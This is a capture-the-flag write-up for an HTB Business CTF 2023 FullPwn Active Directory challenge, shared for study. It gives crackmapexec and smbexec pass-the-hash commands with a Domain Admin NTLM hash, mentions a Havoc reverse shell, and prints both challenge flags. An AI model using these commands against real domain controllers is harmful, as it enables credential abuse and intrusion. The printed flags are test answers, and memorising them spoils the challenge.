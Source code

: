 ### Challenge description
FullPwn challenges don't have a description. We just get an IP address and are supposed to get user and root flag.

Because [Contempt](https://github.com/LazyTitan33/CTF-Writeups/blob/main/HTB%20-%20Business%20CTF%202023/FullPwn/Contempt.md) had the unintended vulnerability with Zerologon, HTB created this challenge. I got both user AND root flags for this challenge via unintended means as well.

We are dealing with the same Domain Controller. Because of this, the first thing I did was to check all the users and their hashes. Surprisingly, not all of them were changed and one of Domain Admins' hash still worked:

```bash
crackmapexec smb contempt.htb -u echo.rivers -H a7be11b5be8bb84196edbd0e8c0bc9ea --shares
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/835209c6-03e3-4d06-adf4-2846c5cb2d18)

We get access again via smbexec and NETLOGON share:

```bash
smbexec.py contemp.htb/echo.rivers@contempt.htb -hashes :a7be11b5be8bb84196edbd0e8c0bc9ea -share NETLOGON
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/f727876c-4825-4a00-9e0f-a877fe995514)

And get the administrator flag right away:

HTB{HeY_iv3_g0n3_phIsHINg_leav3_4_meSs4g3}

### Privilege de-escalation... again

I repeated the step from Contempt and got a reverse shell in Havoc and ran the recursive search for pattern:

```powershell
shell powershell -command "ls -fo -r \ -erroraction silentlycontinue | sls -pattern 'HTB{' -erroraction silentlycontinue"
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/69af9436-0123-4618-9471-06a014d06bd1)

And we get the user flag as well as the older flag from Contempt:
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/8ca6926e-bdcc-4c90-a0dd-4c90a35eb710)

HTB{1_nEveR_cL41m3D_t0_Be_4n_ss0_exPERt}
